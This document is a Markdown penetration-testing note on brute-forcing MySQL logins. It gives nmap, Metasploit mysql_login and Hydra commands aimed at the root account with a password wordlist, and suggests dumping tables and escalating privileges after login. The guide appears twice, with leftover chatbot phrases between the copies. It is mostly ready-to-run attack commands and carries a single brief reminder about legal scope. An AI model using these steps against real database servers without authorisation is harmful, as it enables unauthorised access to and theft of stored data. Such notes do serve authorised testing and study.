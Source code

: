 

## 🛡️ MySQL Directory Attack & Brute-Force Enumeration

This guide outlines how to perform directory attacks and brute-force MySQL credentials after confirming that MySQL is running on the target system.

---

### ✅ Step 1: Confirm MySQL is Running

```bash
nmap <target-ip> -p 3306 -sV
```

* `-p 3306`: Scan the MySQL default port.
* `-sV`: Detect the MySQL version.

---

### ⚔️ Step 2: Brute-Force MySQL Credentials using Metasploit

```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <target-ip>
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set STOP_ON_SUCCESS true
set USERNAME root
run
```

#### Explanation:

* `mysql_login`: Metasploit module for brute-force attacks on MySQL.
* `PASS_FILE`: Path to a password wordlist.
* `USERNAME`: Start with `root` as it's a common MySQL user.

---

### ⚔️ Step 3: Brute-Force MySQL with Hydra

```bash
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <target-ip> mysql
```

#### Breakdown:

* `-l root`: Single username.
* `-P`: Path to password wordlist.
* `<target-ip>`: Replace with actual IP of the target.
* `mysql`: Protocol name to target the MySQL service.

---

### 📌 Notes

* Ensure MySQL port (3306) is **open** before brute-forcing.
* Always validate legal scope when performing enumeration.
* Use **stronger wordlists** like `rockyou.txt` if allowed.
* After successful login, you can **enumerate databases**, **dump tables**, or attempt **privilege escalation**.

---

Let me know if you also want a combined `.md` file for **MySQL + HTTP Apache** enumeration in one place for revision or GitHub.
Here's a clean, corrected, and easy-to-understand **MySQL Directory Attack Enumeration** note in `.md` (Markdown) format — ideal for revision or sharing with others:

---

### 🛡️ MySQL Directory Attack & Brute-Force Enumeration

This guide outlines how to perform directory attacks and brute-force MySQL credentials after confirming that MySQL is running on the target system.

---

### ✅ Step 1: Confirm MySQL is Running

```bash
nmap <target-ip> -p 3306 -sV
```

* `-p 3306`: Scan the MySQL default port.
* `-sV`: Detect the MySQL version.

---

### ⚔️ Step 2: Brute-Force MySQL Credentials using Metasploit

```bash
msfconsole
```

```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <target-ip>
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set STOP_ON_SUCCESS true
set USERNAME root
run
```

#### Explanation:

* `mysql_login`: Metasploit module for brute-force attacks on MySQL.
* `PASS_FILE`: Path to a password wordlist.
* `USERNAME`: Start with `root` as it's a common MySQL user.

---

### ⚔️ Step 3: Brute-Force MySQL with Hydra

```bash
hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt <target-ip> mysql
```

#### Breakdown:

* `-l root`: Single username.
* `-P`: Path to password wordlist.
* `<target-ip>`: Replace with actual IP of the target.
* `mysql`: Protocol name to target the MySQL service.

---

### 📌 Notes

* Ensure MySQL port (3306) is **open** before brute-forcing.
* Always validate legal scope when performing enumeration.
* Use **stronger wordlists** like `rockyou.txt` if allowed.
* After successful login, you can **enumerate databases**, **dump tables**, or attempt **privilege escalation**.
